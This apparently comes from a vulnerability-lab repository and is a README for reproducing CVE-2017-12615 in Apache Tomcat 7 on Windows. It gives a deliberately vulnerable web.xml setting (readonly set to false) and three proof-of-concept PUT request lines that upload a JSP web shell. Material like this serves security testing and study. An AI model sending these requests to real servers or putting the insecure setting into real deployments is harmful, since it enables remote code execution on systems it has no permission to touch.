


# Tomcat Remote Code Execution Vulnability(CVE-2017-12615)

## Introduction

When running Apache Tomcat 7.0.0 to 7.0.79 on Windows with HTTP `PUTs` enabled (e.g. via setting the **readonly** initialisation parameter of the Default to **false**) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server.

Impact version:

```
Tomcat [7.0.0 7.0.79]
```

## Usage

Since this vulnearability only work on `Windows`, I have no build a docker contaner. But it's easy to review

Download a vulnerable version of [tomcat](https://archive.apache.org/dist/tomcat/tomcat-7/), modified the `web.xml` in `conf/` path as below.

```xml
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <!-- set readonly to false -->
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value> 
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

Save it. And run

```bash
./catalina.sh start
```

After that you can use the poc to uploading file.

```http
PUT shell.jsp%20 HTTP/1.1
PUT shell.jsp::$DATA HTTP/1.1
PUT shell.jsp/ HTTP/1.1
```

Uploading



Accessing

